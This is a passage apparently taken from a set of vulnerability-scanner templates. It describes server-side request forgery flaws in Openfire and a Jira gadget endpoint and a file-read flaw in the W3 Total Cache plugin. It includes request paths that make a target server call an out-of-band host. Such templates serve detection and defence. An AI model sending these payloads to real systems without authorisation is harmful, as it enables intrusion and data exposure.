 - {{BaseURL}}/plugins/servlet/gadgets/makeRequest
  - url=https://{{Host}}:443@{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Ignite Realtime Openfire <=4.4.2 - Server-Side Request Forgery

## Description

- Ignite Realtime Openfire through version 4.4.2 allows attackers to send arbitrary HTTP GET requests in FaviconServlet.java, resulting in server-side request forgery.
- severity - critical
- tags - cve,cve2019,ssrf,openfire,oast

## Requests

- Method - GET

### URL

- {{BaseURL}}/getFavicon?host=http://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# W3 Total Cache 0.9.2.6-0.9.3 - Unauthenticated File Read / Directory Traversal

## Description

- WordPress plugin W3 Total Cache before version 0.9.4 allows remote attackers to read arbitrary files via the SubscribeURL field in SubscriptionConfirmation JSON data via pub/sns.php.

- severity - high
- tags - cve,cve2019,wordpress,wp-plugin,ssrf,packetstorm
